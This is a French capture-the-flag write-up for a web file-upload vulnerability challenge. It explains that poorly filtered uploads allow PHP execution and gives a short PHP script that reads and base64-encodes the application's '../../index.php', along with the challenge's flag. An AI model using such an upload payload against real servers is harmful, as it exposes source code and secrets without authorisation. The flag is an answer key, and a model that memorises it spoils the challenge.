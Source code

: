 # File upload vulnerability 1

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Les vulnérabilités de téléversement de fichier permettent d'exécuter son propre code sur un serveur web. La vulnérabilité existe lorsque les fichiers téléversés ne sont pas bien filtrés. Par exemple, un site peut permettre que de téléverser des images. Cependant, si les restrictions ne sont pas implémentées de façon rigoureuse dans l'application, il serait possible de téléverser des fichiers PHP avec notre propre code. 

Le flag se cache dans le code source de l'application. Effectuez une lecture du code source en exploitant cette vulnérabilité. 

## Setup

Requirements:
- BurpSuite

# Writeup

Vous devez utiliser un script PHP comme celui-ci:

```
<?php
echo base64_encode(file_get_contents("../../index.php"));
?>
```

La conversion en Base64 n'est pas nécessaire, car lorsque le fichier PHP sera interprété, le flag qui est en commentaire dans le code source et se retrouvera affichée lorsqu'on fera Ctrl+U. 

Flag: `flag-5f087c95fd24e2d8feef96nosecuritywhatsoever`
